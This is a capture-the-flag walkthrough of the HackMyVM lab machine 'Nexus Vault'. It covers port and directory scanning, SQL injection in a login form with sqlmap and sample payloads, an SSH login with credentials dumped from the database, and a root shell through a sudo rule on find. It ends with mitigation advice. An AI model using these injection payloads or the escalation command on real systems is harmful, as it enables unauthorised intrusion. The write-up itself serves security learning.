

# HackMyVM: Nexus Vault (NexusLabCTF)

| Field | Value |
|---|---|
| Platform | HackMyVM |
| Machine | Nexus Vault (NexusLabCTF) |
| IP | 172.20.10.3 |
| OS | Debian 12 (Linux) |
| Category | Web → SQLi → SSH → sudo privesc |
| Author | Shalopai |

---

## 1. Reconnaissance

### 1.1 Port Scan

```bash
nmap -sV -sC -p- -T4 --min-rate 5000 172.20.10.3
```

Open ports:

| Port | Service | Version |
|---|---|---|
| 22/tcp | SSH | OpenSSH 9.2p1 Debian |
| 80/tcp | HTTP | Apache 2.4.62 (Debian) |

`SCREENSHOT: nmap output`

---

## 2. Web Enumeration

### 2.1 Directory Brute-Force

```bash
ffuf -u http://172.20.10.3/FUZZ -e .php,.html \
  -w /usr/share/wordlists/dirb/directory-list-2.3-medium.txt
```

Discovered pages:

| Path | Status | Size | Notes |
|---|---|---|---|
| `/index.html` | 200 | 825 | Homepage |
| `/login.php` | 200 | 352 | Login form |
| `/index2.php` | 200 | 75134 | Large page, not analyzed yet |
| `*.php` / `*.html` | 403 | 276 | Forbidden |

`SCREENSHOT: ffuf output`

### 2.2 Login Form

Sending a POST request to `/login.php` with test credentials:

```http
POST /login.php HTTP/1.1
Host: 172.20.10.3
Content-Type: application/x-www-form-urlencoded

user=123&pass=123
```

The response is a generic authentication failure. The parameters are likely passed to a backend query, so I tested for SQL injection.

`SCREENSHOT: request/response in Burp`

---

## 3. SQL Injection in login.php

The `user` parameter is injectable. I automated exploitation with sqlmap.

### 3.1 Confirming the Injection

```bash
sqlmap http://172.20.10.3/login.php --data="user=123&pass=123" -p user --dbs
```

sqlmap identified three injection types:

- **Boolean-based blind**: `user=123' OR NOT 7922=7922#&pass=123`
- **Error-based**: `user=123' AND (SELECT ... FLOOR(RAND(0)*2)...)-- ...`
- **Time-based blind**: `user=123' AND (SELECT 2973 FROM (SELECT(SLEEP(5)))ChEe)-- ...`

Backend DBMS: **MySQL / MariaDB**.

Databases found:

```
information_schema
mysql
Nebuchadnezzar   <-- interesting
performance_schema
sion
sys
```


### 3.2 Dumping the users Table

```bash
sqlmap http://172.20.10.3/login.php --data="user=123&pass=123" \
  -p user -D Nebuchadnezzar -T users --dump
```

Table `users`:

| id | username | password |
|---|---|---|
| 1 | shelly | `F4ckTh3F4k3H4ck3r5` |
| 2 | admin | `cambiame2025` |

Passwords are stored in plaintext, which is a serious issue on its own.


---

## 4. Initial Access (SSH)

Logging in over SSH as `shelly` with the password recovered from the database:

```bash
ssh shelly@172.20.10.3
```

Access obtained on host `NexusLabCTF`.

`SCREENSHOT: successful SSH login`

### 4.1 User Flag

```bash
shelly@NexusLabCTF:~$ ls
SA
shelly@NexusLabCTF:~$ cd SA
shelly@NexusLabCTF:~/SA$ cat user-flag.txt
```

**User flag:** `[REDACTED]`

`SCREENSHOT: user flag`

---

## 5. Privilege Escalation

### 5.1 Checking sudo Permissions

```bash
sudo -l
```

Output:

```
User shelly may run the following commands on NexusLabCTF:
    (ALL) NOPASSWD: /usr/bin/find
```

The user can run `find` as root without a password. This is enough, because `find` can execute commands via `-exec`.

### 5.2 Exploiting find (GTFOBins)

```bash
sudo find . -exec /bin/sh \; -quit
```

This drops a root shell:

```bash
# id
uid=0(root) gid=0(root) groups=0(root)
```

`SCREENSHOT: id showing root`

### 5.3 Root Flag

`[REDACTED]`

`SCREENSHOT: root flag`

---

## 6. Attack Chain

```
Recon (nmap, ffuf)
  → /login.php: SQLi (boolean / error / time-based blind)
    → sqlmap: dump Nebuchadnezzar.users
      → SSH: shelly : F4ckTh3F4k3H4ck3r5
        → sudo -l: NOPASSWD /usr/bin/find
          → GTFOBins: find -exec /bin/sh → root
```

---

## 7. Mitigation

1. **SQL injection**: Use prepared statements / parameterized queries instead of string concatenation. For example, in PHP with PDO:
   ```php
   $stmt = $pdo->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
   $stmt->execute([$user, $pass]);
   ```
2. **Passwords**: Store hashes (`password_hash()`, bcrypt, or argon2), not plaintext.
3. **Password reuse**: Database credentials should not work for SSH. Keep web application accounts separate from system accounts.
4. **sudo**: Don't grant NOPASSWD on binaries that can spawn commands (`find`, `vim`, `less`, `awk`, etc.). Check such rights against GTFOBins.
5. **Error handling**: Don't return detailed database errors to the client; log them server-side.

---

## 8. Tools

- nmap
- ffuf
- sqlmap
- Burp Suite (optional)
- GTFOBins (https://gtfobins.github.io)

---